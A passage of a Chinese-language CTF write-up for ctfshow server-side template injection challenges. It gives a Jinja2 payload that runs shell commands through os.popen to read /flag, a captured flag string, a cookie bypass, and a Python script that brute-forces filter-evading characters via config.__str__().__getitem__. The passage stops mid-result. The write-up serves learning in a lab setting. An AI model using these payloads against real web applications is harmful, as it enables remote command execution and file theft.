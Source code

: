 * * *

按照大佬的方法做个payload

```
?name={{lipsum.__globals__.os.popen(request.values.gg).read()}}&gg=cat /flag
```

```
ctfshow{2e39f741-f60e-4cb9-a889-00441ac46737}
```

看了一下别人的wp，还可以用cookie绕过

利用bp抓包然后传入cookie的值



![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150003-43e8c4d4-7d0f-1.png)


效果一样

### ctfshow web365

字符串拼接绕过

应该是过滤了单双引号，args，\[\]

中括号可以用点或者`__getitem__`绕过

通过`__getitem__()`构造任意字符，比如

?name={{config.\_\_str\_\_().\_\_getitem\_\_(22)}}   \# 就是22

整个脚本

```
import requests
url="http://967b7296-6f76-444e-83d3-519ce6624dea.challenge.ctf.show/?name={{config.__str__().__getitem__(%d)}}"

payload="cat /flag"
result=""
for j in payload:
    for i in range(0,1000):
        r=requests.get(url=url%(i))
        location=r.text.find("<h3>")
        word=r.text[location+4:location+5]
        if word==j:
            print("config.__str__().__getitem__(%d) == %s"%(i,j))
            result+="config.__str__().__getitem__(%d)~"%(i)
            break
print(result[:len(result)-1])
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150004-4433fa44-7d0f-1.png)


得到
